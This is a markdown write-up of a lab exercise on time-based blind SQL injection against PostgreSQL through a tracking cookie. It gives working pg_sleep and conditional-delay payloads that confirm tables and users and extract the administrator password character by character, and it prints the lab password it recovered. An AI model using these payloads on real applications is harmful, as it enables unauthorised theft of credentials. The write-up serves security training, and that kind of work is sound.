





# Lab: Blind SQL Injection with Time Delays (PostgreSQL)

## Objective

Exploit a blind SQL injection vulnerability using **time-based techniques** to retrieve the password of the `administrator` user.

---

## Context

The application uses a tracking cookie (`TrackingId`) that is included in a backend SQL query.

- No output is returned
- No error messages are shown
- BUT: response time varies depending on query execution

This enables **time-based blind SQL injection**.

---

## Step 1 — Identify Injection Point

The injection point is the `TrackingId` cookie.

We inject payloads into the cookie value and observe response time.


[](images/injection_point_blind_timedelay.png)


---

## Step 2 — DBMS Detection

We test time-based payloads:

```sql
'; SELECT pg_sleep(3)--
```

 DBMS detected: PostgreSQL


[](images/dbms_detection_blind_timedelay.png)


---

## Step 3 — Confirm Table Exists

```sql
'; SELECT CASE WHEN 
(SELECT 'x' FROM users LIMIT 1)='x'
THEN pg_sleep(3) ELSE pg_sleep(0) END--
```

 Delay observed → table exists


[](images/check_blind_timedelay.png)


---

## Step 4 — Confirm Columns Exist

```sql
SELECT COUNT(username) FROM users
SELECT COUNT(password) FROM users
```

 Columns exist

[](images/check_blind_timedelay.png)


---

## Step 5 — Confirm User Exists

```sql
'; SELECT CASE WHEN 
(SELECT 'administrator' FROM users 
WHERE username='administrator' LIMIT 1)='administrator'
THEN pg_sleep(3) ELSE pg_sleep(0) END--
```

 User exists


[](images/check_blind_timedelay.png)


---

## Step 6 — Determine Password Length

```sql
LENGTH(password) > X
```

 Password length = 20

[](images/lengtlength_password_blind_timedelay.png)


---

## Step 7 — Extract Password

```sql
ASCII(SUBSTRING(password, position, 1)) > mid
```

 Extract characters using binary search

[](images/extraction_password_blind_timedelay.png)


---

## Automation

The process was automated using a custom Python script.


[](images/final_output_blind_timedelay.png)


---

## Final Result

 Password extracted:

```
laktye4dcorpyc9wfu2g
```

✔️ Total requests: 147  
✔️ Total time: ~4.5 minutes  

---

## Key Takeaways

- Time-based SQLi works without visible output
- Response time is used as a side-channel
- Binary search improves efficiency
- DBMS-specific payloads are required

---

## Skills Demonstrated

- Blind SQL injection (time-based)
- Side-channel analysis
- Payload construction
- Automation of attacks

---

## Disclaimer

All testing was performed in a controlled lab environment.
